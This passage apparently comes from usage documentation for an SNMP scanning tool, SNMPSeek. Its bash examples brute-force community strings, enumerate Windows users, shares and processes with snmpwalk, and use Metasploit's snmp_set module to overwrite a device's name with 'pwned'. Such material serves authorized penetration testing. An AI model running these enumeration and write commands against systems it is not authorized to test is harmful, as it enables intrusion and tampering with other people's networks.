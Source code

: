 ### Example 4: Windows User Enumeration
```bash
# 1. Find Windows servers with SNMP
./snmpseek.py --bruteforce -f windows_servers.txt

# 2. Extract user list
snmpwalk -v2c -c public 192.168.1.50 1.3.6.1.4.1.77.1.2.25

# Output shows all local users

# 3. Extract shares
snmpwalk -v2c -c public 192.168.1.50 1.3.6.1.4.1.77.1.4.2

# 4. Extract running processes
snmpwalk -v2c -c public 192.168.1.50 1.3.6.1.2.1.25.4.2.1.2
```

## Integration with Other Tools

### With Metasploit
```bash
# 1. Discover SNMP with SNMPSeek
./snmpseek.py --bruteforce 192.168.1.0/24

# 2. Import into Metasploit
msfconsole
use auxiliary/scanner/snmp/snmp_enum
set COMMUNITY public
set RHOSTS file:/path/to/snmplist.txt
run

# 3. Exploit writable SNMP
use auxiliary/scanner/snmp/snmp_set
set COMMUNITY private
set RHOSTS 192.168.1.10
set OID 1.3.6.1.2.1.1.5.0
set OIDVALUE "pwned"
set TYPE s
run
```

### With onesixtyone (Fast SNMP Scanner)
```bash
# 1. Create community list from SNMPSeek
echo -e "public\nprivate\ncommunity" > communities.txt

# 2. Fast scan with onesixtyone
onesixtyone -c communities.txt -i targets.txt

# 3. Detailed enum with SNMPSeek
./snmpseek.py -f found_hosts.txt --walk
```
